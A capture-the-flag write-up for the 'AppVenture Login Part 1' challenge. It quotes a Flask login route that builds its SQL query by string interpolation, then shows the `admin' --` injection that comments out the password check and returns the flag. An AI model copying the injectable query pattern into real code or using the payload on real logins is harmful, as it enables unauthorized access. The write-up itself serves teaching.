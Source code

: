 ## AppVenture Login Part 1

> Well, I haven't taken CS6131 yet but databases should be easy right??

From the description we can see the keyword databases, based on prior knownedge of the module CS6131, we can be pretty sure this is related to SQL.

Since the source operates on a simple template string SQL command, we can apply simple SQL injection and skip the password check.

```python
@app.route("/login", methods=["post"])
def login():
    username = request.form.get('username', default='', type=str)
    password = request.form.get('password', default='', type=str)
    users = db.execute(f"select id from users where name='{username}' and password='{password}'").fetchall()
    if users:
        return Response(flag1, mimetype='text/plain')
    return Response('Login failed', mimetype='text/plain')
```

In SQL, comments can be made with `--`

To skip the password check, we can simply input `admin' --` in username and leave password blank, which would result in the following command

`````sql
select id from users where name='admin' --' and password=''
`````

Everything behind `--` is ignored and we successfully log in as admin

### http://35.240.143.82:4208/login

```
flag{you_can_pass_cs6131_now}
```

Flag obtained